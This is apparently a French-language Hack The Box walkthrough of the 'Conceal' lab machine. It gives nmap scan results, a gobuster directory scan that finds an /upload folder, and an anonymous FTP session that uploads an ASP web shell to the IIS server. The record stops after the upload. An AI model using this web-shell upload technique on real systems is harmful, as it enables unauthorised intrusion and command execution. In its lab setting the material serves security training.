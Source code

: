 	PORT    STATE SERVICE       VERSION
	21/tcp  open  ftp           Microsoft ftpd
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst:
	|_  SYST: Windows_NT
	80/tcp  open  http          Microsoft IIS httpd 10.0
	| http-methods:
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/10.0
	|_http-title: IIS Windows
	135/tcp open  msrpc         Microsoft Windows RPC
	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp open  microsoft-ds?
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Host script results:
	| smb2-security-mode:
	|   2.02:
	|_    Message signing enabled but not required
	| smb2-time:
	|   date: 2019-05-18 11:50:58
	|_  start_date: 2019-05-18 06:32:33

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                         
	Nmap done: 1 IP address (1 host up) scanned in 23.56 seconds

Nous avons des informations très intéressantes, on peut voir qu'on peut se connecter en tant que Anonymous dans le FTP et on peut uploader des fichiers sur le système via le protocole FTP.
	
HTTP
----
Donc si nous allons dans le serveur HTTP, il y'a pas grand chose donc pour ça je vais lancer une attaque gobuster pour voir si il y'a des dossiers intéréssant ou des fichiers.

	root@Seyptoo:~/htb/box/Conceal# gobuster -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.116
	/upload (Status: 301)

Donc le site web accepte seulement de l'asp ou bien du aspx, mais il accepte en aucun cas du PHP. Donc pour ça je vais upload un shell ASP WebShell pour IIS 8 dans le serveur pour envoyer des commandes. Un bon lien pour télécharger le shell. https://packetstormsecurity.com/files/137024/ASP-Webshell-For-IIS-8.html <br />

	root@Seyptoo:~/htb/box/Conceal# ftp 10.10.10.116
	Connected to 10.10.10.116.
	220 Microsoft FTP Service
	Name (10.10.10.116:seyptoo): anonymous
	331 Anonymous access allowed, send identity (e-mail name) as password.
	Password:
	230 User logged in.
	Remote system type is Windows_NT.
	ftp> mput index.asp
	mput index.asp? y
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	226 Transfer complete.
	1423 bytes sent in 0.00 secs (17.8563 MB/s)